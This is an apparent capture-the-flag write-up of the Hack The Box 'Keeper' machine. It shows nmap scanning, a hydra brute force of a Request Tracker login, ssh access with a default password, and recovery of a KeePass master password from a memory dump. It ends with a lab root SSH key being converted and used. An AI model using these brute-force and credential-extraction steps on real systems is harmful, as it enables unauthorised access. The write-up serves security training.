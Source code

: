 ```yaml
---
tags:
  - linux
---
```

# HTB: [Keeper](https://app.hackthebox.com/machines/Keeper)

## Enumeration

```console
$ sudo nmap -n -sC -sV -F $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-03 12:13 CST
Nmap scan report for 10.10.11.227
Host is up (0.14s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.94 seconds
```

`curl` point me toward `tickets.keeper.htb`:

```console
$ curl -si $t
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 03 Oct 2023 18:14:39 GMT
Content-Type: text/html
Content-Length: 149
Last-Modified: Wed, 24 May 2023 14:04:44 GMT
Connection: keep-alive
ETag: "646e197c-95"
Accept-Ranges: bytes

<html>
  <body>
    <a href="http://tickets.keeper.htb/rt/">To raise an IT support ticket, please visit tickets.keeper.htb/rt/</a>
  </body>
</html>
```

I update `/etc/hosts` so that I may access the vhost:

```console
$ grep keeper /etc/hosts
10.10.11.227 tickets.keeper.htb
```

And:

![](_/htb-keeper-20231002-1.png)

I try `admin:admin` and capture the results using Burp:

![](_/htb-keeper-20231002-2.png)

## Exploitation

I'm able to brute-force the credentials `root:password`:[^1]

```console
$ hydra tickets.keeper.htb http-form-post "/rt/NoAuth/Login.html:user=^USER^&pass=^PASS^:password is incorrect" -l root -P /usr/share/seclists/Passwords/cirt-default-passwords.txt
[...]
[DATA] attacking http-post-form://tickets.keeper.htb:80/rt/NoAuth/Login.html:user=^USER^&pass=^PASS^:password is incorrect
[80][http-post-form] host: tickets.keeper.htb   login: root   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-03 12:42:47
```

The `http://tickets.keeper.htb/rt/` ticketing interface has one ticket from a user who attached a memory dump from KeePass, a password manager utility.

![](_/htb-keeper-20231002-3.png)

Looking at the user data for the ticket requester, there is a default password:

![](_/htb-keeper-20231002-4.png)

These credentials work for `ssh` on the target:

```console
$ ssh lnorgaard@$t
Warning: Permanently added '10.10.11.227' (ED25519) to the list of known hosts.
lnorgaard@10.10.11.227's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ cat user.txt
e7880b[...]
```

## Privilege Escalation

The KeePass dump mentioned in the ticket is also available in the user's homedir:

```console
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
lnorgaard@keeper:~$ unzip -l RT30000.zip 
Archive:  RT30000.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
253395188  2023-05-24 12:51   KeePassDumpFull.dmp
     3630  2023-05-24 12:51   passcodes.kdbx
---------                     -------
253398818                     2 files
```

Running [keepass-password-dumper](https://github.com/vdohney/keepass-password-dumper) on the memory dump reveals most of the password:

```text
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.:     d,
4.:     g,
5.:     r,
6.:     ø,
7.:     d,
8.:      ,
9.:     m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    ø,
16.:    d,
17.:    e,
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

Using Google, I'm able to find out that the fragment `M}dgrød med fløde` looks a lot like the phrase `Rødgrød med fløde`, a Danish food. This works, with a lowercase 'r': `rødgrød med fløde`. With that password I'm able to import data into the KeePass app:

![](_/htb-keeper-20231002-5.png)

`root` password: `F4><3K0nd!`…but it doesn't work for `ssh`.

The full KeePass data for `root` user:

```text
Group: Network, Title: keeper.htb (Ticketing Server), User Name: root, Password: ********, Creation Time: 5/19/2023 2:36:50 AM, Last Modification Time: 5/24/2023 4:48:21 AM

PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
[...]
```

That key is in PPK format, and needs to be in a format suitable for OpenSSH.

```console
$ puttygen foo.ppk -O private-openssh -o id_rsa

$ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAp1arHv4TLMBgUULD7AvxMMsSb3PFqbpfw/K4gmVd9GW3xBdP
c9DzVJ+A4rHrCgeMdSrah9JfLz7UUYhM7AW5/pgqQSxwUPvNUxB03NwockWMZPPf
Tykkqig8VE2XhSeBQQF6iMaCXaSxyDL4e2ciTQMt+JX3BQvizAo/3OrUGtiGhX6n
FSftm50elK1FUQeLYZiXGtvSQKtqfQZHQxrIh/BfHmpyAQNU7hVW1Ldgnp0lDw1A
[...]
-----END RSA PRIVATE KEY-----

$ ssh -i id_rsa root@$t
[...]
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# cat root.txt
fc94c7[...]
```

